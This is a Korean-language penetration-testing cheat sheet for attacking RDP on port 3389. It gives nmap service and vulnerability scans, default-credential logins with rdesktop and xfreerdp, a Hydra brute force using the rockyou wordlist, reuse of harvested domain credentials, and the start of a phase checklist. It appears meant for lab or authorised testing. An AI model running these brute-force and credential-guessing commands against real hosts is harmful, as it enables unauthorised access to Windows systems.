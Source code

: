 # 🖥️ RDP ATTACKS (Port 3389)

> **목표: RDP 서비스 발견 후 30-40분 내에 Windows 시스템 직접 접근**

## ⚡ 즉시 실행할 명령어들

### 🚀 RDP 발견 즉시 실행

```bash
# 1. RDP 포트 및 정보 확인
nmap -sV -p 3389 {IP}
nmap --script rdp-* -p 3389 {IP}

# 2. 기본 자격증명 즉시 시도
rdesktop {IP} -u administrator -p password
rdesktop {IP} -u admin -p admin
rdesktop {IP} -u guest -p ""

# 3. xfreerdp로 연결 시도
xfreerdp /u:administrator /p:password /v:{IP}
xfreerdp /u:admin /p:admin /v:{IP}
xfreerdp /u:guest /p:"" /v:{IP}

# 4. RDP NSE 스크립트 실행 (백그라운드)
nmap --script rdp-enum-encryption,rdp-vuln-ms12-020 -p 3389 {IP} &

# 5. 브루트포스 공격 시작 (백그라운드)
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://{IP} &
```

### ⚡ 다른 서비스에서 수집한 크레덴셜 즉시 시도

```bash
# SMB, LDAP, SNMP 등에서 수집한 사용자 정보로 RDP 접근
rdesktop {IP} -u {DISCOVERED_USER} -p {DISCOVERED_PASS}
xfreerdp /u:{DISCOVERED_USER} /p:{DISCOVERED_PASS} /v:{IP}

# 도메인 환경인 경우
xfreerdp /u:{DOMAIN}\\{USERNAME} /p:{PASSWORD} /v:{IP}
rdesktop {IP} -u {DOMAIN}\\{USERNAME} -p {PASSWORD}
```

---

## 📋 단계별 체크리스트

### 🎯 Phase 1: 발견 및 기본 정보 수집 (8분)

- [ ] **RDP 포트 확인** `nmap -p 3389 {IP}`
- [ ] **RDP 서비스 정보 확인** `nmap -sV -p 3389 {IP}`
- [ ] **NLA(Network Level Authentication) 확인**
- [ ] **암호화 수준 확인**
- [ ] **운영체제 정보 수집**
